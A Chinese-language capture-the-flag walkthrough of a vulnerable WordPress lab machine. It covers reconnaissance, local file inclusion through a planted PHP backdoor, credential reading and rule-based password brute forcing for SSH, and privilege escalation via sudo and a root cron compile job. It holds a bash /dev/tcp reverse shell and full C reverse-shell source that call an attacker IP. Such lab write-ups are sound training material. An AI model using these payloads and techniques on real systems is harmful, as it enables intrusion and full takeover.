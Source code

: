 #### 信息收集

1. 主机发现：nmap -sn -PE -n 192.168.1.0/24
   192.168.1.250是新增加的IP，是靶机
2. 端口扫描：nmap -sT --min-rate 10000 -p- 192.168.1.250
   PORT   STATE SERVICE
   22/tcp open  ssh
   80/tcp open  http
3. 获取详细服务信息及操作系统版本：nmap -sT -sV -O -A -p22,80 192.168.1.250
   PORT   STATE SERVICE VERSION
   22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
   | ssh-hostkey:
   |   3072 8d5365835252c4127249be335dd1e71c (RSA)
   |   256 06610a49864364cab00c0f09177b33ba (ECDSA)
   |_  256 9b8d90472ac1dc11287d57e08a23b469 (ED25519)
   80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
   |_http-title: Hacked By Red &#8211; Your site has been Hacked! You\xE2\x80\x99ll neve...
   | http-robots.txt: 1 disallowed entry
   |_/wp-admin/
   |_http-generator: WordPress 5.8.1
   |_http-server-header: Apache/2.4.41 (Ubuntu)
4. 漏洞扫描：nmap --script=vuln -p22,80 192.168.1.250
   有Dos，xss，csrf等漏洞，并没有有价值的漏洞

#### Web渗透

1. 查看80端口，页面是红队已攻破了蓝队，并且已经留下了后门，是wordpress的内容管理系统，开启目录爆破
   `gobuster dir -u http://192.168.1.250 -w /usr/share`
2. 爆破出许多目录，但总是重定向到 `http://redrocks.win/`，并且默认页面的许多超链接也重定向到此域名，将该域名在DNS配置文件中添加
   `192.168.1.250    redrocks.win`
3. 继续访问其他页面，没有什么思路了，看别人的复现，使用CommonBackdoors-PHP.fuzz.txt字典扫描，
   `Progress: 413 / 423 (97.64%)[ERROR] 2023/04/17 08:28:36 [!] Get "http://192.168.1.250/NetworkFileManagerPHP.php": context deadline exceeded (Client.Timeout exceeded while awaiting headers)`超时，访问，页面存在，但是空白，搜索得知这个文件有本地文件包含漏洞的可能
4. 启用ffuf模糊测试，`ffuf -c -w /usr/share/wordlists/ -u 'http://redrocks.win/NetworkFileManagerPHP.php?FUZZ=../../../../../../etc/passwd`，关键字为 `key`
   `之前开起了太多目录爆破，导致靶机内存爆了，杀死了一堆服务进程，测试总是超时，重启一下虚拟机就没问题了`
5. php伪协议读取后门文件内容，利用base64读取，解码后得到：

   ```php

   <?php
      $file = $_GET['key'];
      if(isset($file))
      {
          include("$file");
      }
      else
      {
          include("NetworkFileManagerPHP.php");
      }
      /* VGhhdCBwYXNzd29yZCBhbG9uZSB3b24ndCBoZWxwIHlvdSEgSGFzaGNhdCBzYXlzIHJ1bGVzIGFyZSBydWxlcw== */
   ?
   ```

   将注释解码，`That password alone won't help you! Hashcat says rules are rules`，搜了一下，`hashcat`是一款hash破解工具
6. 搜索得知wordpress配置文件为wp-config.php，读取此配置文件

   ```php
   /** MySQL database username */
   define( 'DB_USER', 'john' );

   /** MySQL database password */
   define( 'DB_PASSWORD', 'R3v_m4lwh3r3_k1nG!!' ); 
   ```
7. 利用hashcat破解用户登陆密码，将读取到的密码保存为pass.txt，`rules`字典就是规则，意思就是使用rules字典
   `hashcat --stdout pass.txt -r /usr/share/hashcat/rules/best64.rule > passlist.txt`
8. hydra破解：`hydra -l john -P passlist.txt ssh://192.168.1.250`
   `[22][ssh] host: 192.168.1.250   login: john   password: R3v_m4lwh3r3_k1nG!!02`

   成功破解，ssh登录获取用户初级权限

#### 提权

1. 查看当前用户的sudo权限，sudo -l，`(ippsec) NOPASSWD: /usr/bin/time`，可以以ippsec的身份执行time命令，GTFOBins上搜time，payload：`sudo -u ippsec /usr/bin/time /bin/bash`，切换到ippsec用户，查看家目录下的flag，内容为：`Fake Flag: Come on now Blue! You really think it would be that easy to get the user flag? You are not even on the right user! Hahaha`，说明我们还需切换到加目录下的另一个用户，oxdf用户，并且cat命令被替换成vi命令，很可疑
2. 操作时每隔五分钟会自动退出登录，参考别人的博客，使用以下命令：

   ```
   1. 在 /dev/shm 目录中创建一个反向 shell bash 脚本
      #!/bin/bash
      bash -c 'bash -i >& /dev/tcp/192.168.1.56/1234 0>&1'
   2. 在 kali 上运行 `nc -lvvp 1234` 和 执行 shell 脚本
   3. `python3 -c 'import pty;pty.spawn("/bin/bash")'`
   4. `export TERM=xterm` 然后 Ctrl+Z 退出来一下
   5. `stty raw -echo;fg` 回车后输入 reset 再回车
   ```

   虽然消息还在弹出，但不会退出了，但不知道为什么连接断开后每行的命令提示符前都会多一段缩进，再次反弹shell，没分色了
3. 下载pspy64s脚本 `wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s`，收集真在运行的进程，发现可以利用的后门进程：

   ```
   /bin/sh -c /usr/bin/bash /root/defense/backdoor.sh 
   /usr/bin/gcc /var/www/wordpress/.git/supersecretfileuc.c -o /var/www/wordpress/.git/rev 
   ```

   root文件夹下的文件无法查看，查看supersecretfileuc.c文件

   ```c
   #include <stdio.h>

   int main()
   {

       // prints hello world
       printf("Get out of here Blue!\n");

       return 0;
   }
   ```

   是定时弹出文件的一个，且它具有root权限，删除这两个文件，再上传 `supersecretfileuc.c`文件，c语言的反弹shell，编译成rev，过一段时间他以root自动运行，就可以获得root权限的shell
4. c语言反弹shell：

   ```c
   #include <stdio.h>
   #include <unistd.h>
   #include <sys/types.h>
   #include <sys/socket.h>
   #include <arpa/inet.h>
   #include <signal.h>
   #include <dirent.h>
   #include <sys/stat.h>

   int tcp_port = 8888;
   char *ip = "192.168.1.56";
   void rev_shell(){
           int fd;
           if ( fork() <= 0){
                   struct sockaddr_in addr;
                   addr.sin_family = AF_INET;
                   addr.sin_port = htons(tcp_port);
                   addr.sin_addr.s_addr = inet_addr(ip);

                   fd = socket(AF_INET, SOCK_STREAM, 0);
                   if ( connect(fd, (struct sockaddr*)&addr, sizeof(addr)) ){
                           exit(0);
                   }

                   dup2(fd, 0);
                   //dup2(fd, 1);
                   //dup2(fd, 2);
                   execve("/bin/bash", 0LL, 0LL);
           }
           return;
   }

   void main(int argc, char const *argv[])
   {
           rev_shell();
           return 0;
   }
   ```

   kali开启http服务，靶机wget将两个文件下载 `wget http://192.168.1.56:8000/supersecretfileuc.c`，在本地8888端口开启监听，一段时间后收到root的shell
